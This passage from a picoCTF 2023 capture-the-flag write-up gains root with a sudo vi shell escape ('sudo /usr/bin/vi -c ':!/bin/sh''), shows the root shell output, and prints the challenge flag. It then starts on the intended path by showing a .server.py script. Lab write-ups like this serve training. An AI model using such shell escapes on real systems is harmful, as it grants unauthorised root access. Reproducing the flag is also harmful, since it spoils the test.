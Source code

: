 ### Unintended solution

**According to [GTFOBins](https://gtfobins.github.io/gtfobins/vi/#shell), we can spawn a shell via:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/picoCTF-2023/images/Pasted%20image%2020230317181418.png)

```shell
picoctf@challenge:~$ sudo /usr/bin/vi -c ':!/bin/sh' /dev/null
[sudo] password for picoctf: 

# id
uid=0(root) gid=0(root) groups=0(root)
```

Boom! I'm root!

**Let's `cat` the flag!**
```shell
# ls -lah /root
total 12K
drwx------ 1 root root   23 Mar 16 02:08 .
drwxr-xr-x 1 root root   51 Mar 17 10:06 ..
-rw-r--r-- 1 root root 3.1K Dec  5  2019 .bashrc
-rw-r--r-- 1 root root   43 Mar 16 02:08 .flag.txt
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
# cat /root/.flag.txt
picoCTF{pYth0nn_libraryH!j@CK!n9_f56dbed6}
```

- **Flag: `picoCTF{pYth0nn_libraryH!j@CK!n9_f56dbed6}`**

### Intended solution

**Now, let's look at the home directory!**
```shell
picoctf@challenge:~$ ls -lah
total 24K
drwxr-xr-x 1 picoctf picoctf   80 Mar 17 09:55 .
drwxr-xr-x 1 root    root      21 Mar 16 02:08 ..
-rw------- 1 picoctf picoctf  468 Mar 17 09:55 .bash_history
-rw-r--r-- 1 picoctf picoctf  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 picoctf picoctf 3.7K Feb 25  2020 .bashrc
drwx------ 2 picoctf picoctf   34 Mar 17 09:51 .cache
-rw-r--r-- 1 picoctf picoctf  807 Feb 25  2020 .profile
-rw------- 1 picoctf picoctf    0 Mar 17 09:53 .python_history
-rw-r--r-- 1 root    root     375 Mar 16 01:30 .server.py
-rw------- 1 picoctf picoctf  817 Mar 17 09:53 .viminfo
```

**In here, we see there's a Python script file called `.server.py`:**
```py
import base64
import os
import socket
ip = 'picoctf.org'
response = os.system("ping -c 1 " + ip)
#saving ping details to a variable
host_info = socket.gethostbyaddr(ip) 
#getting IP from a domaine
host_info_to_str = str(host_info[2])
host_info = base64.b64encode(host_info_to_str.encode('ascii'))
print("Hello, this is a part of information gathering",'Host: ', host_info)
```
